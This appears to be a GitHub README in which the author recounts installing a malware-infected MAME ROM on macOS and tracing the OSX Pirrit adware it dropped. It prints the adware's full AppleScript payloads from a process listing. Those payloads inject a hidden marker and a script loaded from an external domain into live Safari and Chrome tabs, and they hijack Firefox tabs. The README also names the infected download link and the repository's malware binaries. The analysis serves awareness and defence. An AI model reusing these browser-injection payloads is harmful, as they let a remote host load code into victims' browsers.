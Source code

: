 Warning
=======

This repository contains binaries that are infected with the OSX Pirrit malware.

Backstory
=========

Recently I've been volenteering some of my free time to help children learn to program software and tinker with electronics and I thought it might be neat for the kids to build an old school arcade machine. As part of my initial research into this I had compiled MAME on my new MacBook and was searching for some ROMs that I could try out. The first ROM that I downloaded just happened to be infected with some nasty Malware...

If you're curious, the ROM was for [Galaxian](https://en.wikipedia.org/wiki/Galaxian) and [here is/was the actual download link](http://www.freeroms.com/dl_roms/rom_download.php?title=galaxian_midway&system=MAME&game_id=5674)

Now at this point I should mention that from time-to-time I can be quite a careless individual. The ROM in question was packaged such that upon execution I was immediately asked to enter my root password. Stupid me complied without thinking twice. It was late. I was tired. And quite frankly my fingers were typing in auto-pilot mode at this point. My bad.

Almost immediately I knew that I had f**ked up.

Suddenly, some shadey "software services" appeared on my laptop and Safari started behaving odd. Convinced that I'd been compromised by "something" I immediately downloaded ESET Cyber Security for Mac and ran a scan. 

Nothing.... My MacBook appeared clean. I was not convinced however.

I checked my running processes and one in particular stood out. It looked like a whole bunch of javascript code passed as an argument to "/usr/bin/osascript".

```
  501   514   509   0 12:56pm ??         0:11.84 /usr/bin/osascript -e global _pid^M\012set _pid to "Aa865780bfe3e8a8f-0-FS-AU"^M\012^M\012repeat^M\012«event XFdrIjct» {} ^M\012end repeat^M\012^M\012^M\012on «event XFdrIjct» {}^M\012delay 0.5^M\012try^M\012if is_Safari_running() then^M\012tell application "Safari" ^M\012tell application "Safari" to set page_source to do JavaScript "document.body.innerHTML;" in current tab of first window ^M\012if page_source does not contain _pid then^M\012set theURL to URL of current tab of first window^M\012if theURL is not equal to "about:blank" then^M\012tell application "Safari" to do JavaScript "document.body.innerHTML='<div style=\"display:none;\">" & _pid & "</div>'+document.body.innerHTML;" in current tab of first window ^M\012tell application "Safari" to do JavaScript "var js_script = document.createElement('script'); js_script.type = \"text/javascript\"; js_script.src = \"//aa9bd78f328a6a41279d0fad0a88df1901.com/sm/mu?id=A6BD07C5-B140-575D-8AD6-AFD19EF5FCF4&d=Aa865780bfe3e8a8f-0-FS-AU&cl=0\"; document.getElementsByTagName('head')[0].appendChild(js_script);" in current tab of first window^M\012end if ^M\012end if^M\012end tell^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Safari_running() ^M\012tell application "System Events" to (name of processes) contains "Safari"^M\012end is_Safari_running
  501   516   509   0 12:56pm ??         0:01.87 /usr/bin/osascript -e global delayTime^M\012set delayTime to 99999999^M\012global newTabUrl^M\012set newTabUrl to "'http://google.com'"^M\012global currentUrl^M\012set currentUrl to ""^M\012global previousUrl^M\012set previousUrl to ""^M\012global newTabWithPrev^M\012set newTabWithPrev to ""^M\012^M\012repeat^M\012«event XFdrIjct» {}^M\012end repeat^M\012^M\012on «event XFdrIjct» {}^M\012delay (delayTime * 60)^M\012try^M\012if is_Firefox_running() then^M\012tell application "Firefox" to activate^M\012tell application "System Events"^M\012keystroke "l" using command down^M\012keystroke "c" using command down^M\012delay(1)^M\012end tell^M\012set currentUrl to the clipboard^M\012^M\012if currentUrl is not equal to previousUrl then^M\012set newTabUrlWithPrev to newTabUrl^M\012set newTabUrlWithPrev to replace_chars(newTabUrlWithPrev, "[CONTEXT_URL]", currentUrl)^M\012tell application "Firefox"^M\012open location newTabUrlWithPrev^M\012end tell^M\012set previousUrl to newTabUrlWithPrev^M\012end if^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Firefox_running()^M\012tell application "System Events" to (name of processes) contains "firefox"^M\012end is_Firefox_running^M\012^M\012on replace_chars(this_text, search_string, replacement_string)^M\012set AppleScript's text item delimiters to the search_string^M\012set the item_list to every text item of this_text^M\012set AppleScript's text item delimiters to the replacement_string^M\012set this_text to the item_list as string^M\012set AppleScript's text item delimiters to ""^M\012return this_text^M\012end replace_chars
  501 66630   509   0  7:16pm ??         0:00.04 /usr/bin/osascript -e global _pid^M\012set _pid to "Aa865780bfe3e8a8f-0-FS-AU" ^M\012repeat^M\012«event XFdrIjct» {}^M\012end repeat^M\012^M\012on «event XFdrIjct» {} ^M\012delay 0.5^M\012try^M\012if is_Chrome_running() then^M\012tell application "Google Chrome" to tell active tab of window 1^M\012set sourceHtml to execute javascript "document.getElementsByTagName('html')[0].innerHTML"^M\012if sourceHtml does not contain _pid then^M\012tell application "Google Chrome" to execute front window's active tab javascript "document.body.innerHTML='<div style=\"display:none;\">" & _pid & "</div>'+document.body.innerHTML;" ^M\012tell application "Google Chrome" to execute front window's active tab javascript "var js_script = document.createElement('script'); js_script.type = \"text/javascript\"; js_script.src = \"//aa9bd78f328a6a41279d0fad0a88df1901.com/sm/mu?id=A6BD07C5-B140-575D-8AD6-AFD19EF5FCF4&d=Aa865780bfe3e8a8f-0-FS-AU&cl=0\"; document.getElementsByTagName('head')[0].appendChild(js_script);"^M\012end if^M\012end tell^M\012end if^M\012end try^M\012end «event XFdrIjct»^M\012^M\012on is_Chrome_running() ^M\012tell application "System Events" to (name of processes) contains "Google Chrome"^M\012end is_Chrome_running
  501 66632 41100   0  7:16pm ttys000    0:00.00 grep osa
```

What in the hell is osascript? A quick google search revealed it to be part of the [Apple Open Scripting Architecture](https://developer.apple.com/library/content/documentation/AppleScript/Conceptual/AppleScriptX/Concepts/osa.html). 

A closer look and I could see that something else was being "bootstrapped" from the the domain aa9bd78f328a6a41279d0fad0a88df1901.com. Looks legit....

So I run a wget on the full URL and inspect the result which [you can see here](../blob/master/malicious.js). And there it was. Shitty adware.

I run some "kill -9" commands on the osascript processes but they just keep coming back. O.K. what's kicking them off? I check the PPID on the process and reveal that [/Library/research/research](../blob/master/research.do.not.execute). I back him up so I can take a closer look later -- then I delete it from its current location. I kill the "research" process and all of the "osascript" child processes, which don't respawn.

